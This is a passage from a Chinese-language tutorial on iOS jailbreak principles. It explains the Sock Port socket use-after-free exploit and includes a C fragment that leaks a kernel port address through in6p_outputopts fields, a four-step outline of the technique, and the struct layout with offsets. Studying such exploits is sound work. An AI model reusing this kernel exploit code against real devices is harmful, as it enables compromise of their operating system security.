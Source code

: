 ```c
        // since we wrote 192/sizeof(uint64_t) pointers, reading like this would give us the second half of rk64(options + 184) and the fist half of rk64(options + 176)
        
        /*  from a hex dump:
         
         (lldb) p/x HexDump(options, 192)
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
         ...
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
                    |-----------||-----------|
                     minmtu here prefertempaddr here
         */
        
        // the ANDing here is done because for some reason stuff got wrong. say pref = 0xdeadbeef and mtu = 0, ptr would come up as 0xffffffffdeadbeef instead of 0x00000000deadbeef. I spent a day figuring out what was messing things up
        
        uint64_t ptr = (((uint64_t)mtu << 32) & 0xffffffff00000000) | ((uint64_t)pref & 0x00000000ffffffff);
        
        if (mtu >= 0xffffff00 && mtu != 0xffffffff && pref != 0xdeadbeef) {
            mach_port_destroy(mach_task_self(), p);
            close(sock);
            return ptr;
        }
        mach_port_destroy(mach_task_self(), p);
    }
    
    // close that socket.
    close(sock);
    return 0;
}
```
这里有 4 个关键步骤：
1. 利用 Socket UAF 制造一个 `in6p_outputopts` 大小的已释放区域，详细过程可以看上一篇文章：[iOS Jailbreak Principles - Sock Port 漏洞解析（一）UAF 与 Heap Spraying](https://juejin.im/post/5dd10660e51d453fac0a598d) 或 [Sock Port Write-up](https://github.com/jakeajames/sock_port/blob/master/sock_port.pdf)；
2. 发送 ool message，由于 `in6p_outputopts` 的大小为 192B，一个 port pointer 大小为 8B，因此我们需要发送 192 / 8 = 24 个 ool_ports；
3. 通过 `in6p_outputopts` 两个连续的成员变量拼接出一个 64 位地址；
4. 判断步骤 3 中得到的地址是否是内核对象指针，如果是内核对象指针，说明我们成功了，该地址就是 target port 的地址。

这里我们重点讲一下第 3、4 步：
## 通过 Socket Option 读取一个 8B 区域
根据 `in6p_outputopts` 对应的结构体：
```c
struct	ip6_pktopts {
    struct	mbuf *ip6po_m;	
    int	        ip6po_hlim;	
    struct	in6_pktinfo *ip6po_pktinfo;
    struct	ip6po_nhinfo ip6po_nhinfo;
    struct	ip6_hbh *ip6po_hbh; 
    struct	ip6_dest *ip6po_dest1;
    struct	ip6po_rhinfo ip6po_rhinfo;
    struct	ip6_dest *ip6po_dest2;
    int	ip6po_tclass;
    int	ip6po_minmtu; // +180
    int	ip6po_prefer_tempaddr; // + 184
    int ip6po_flags;
};
```
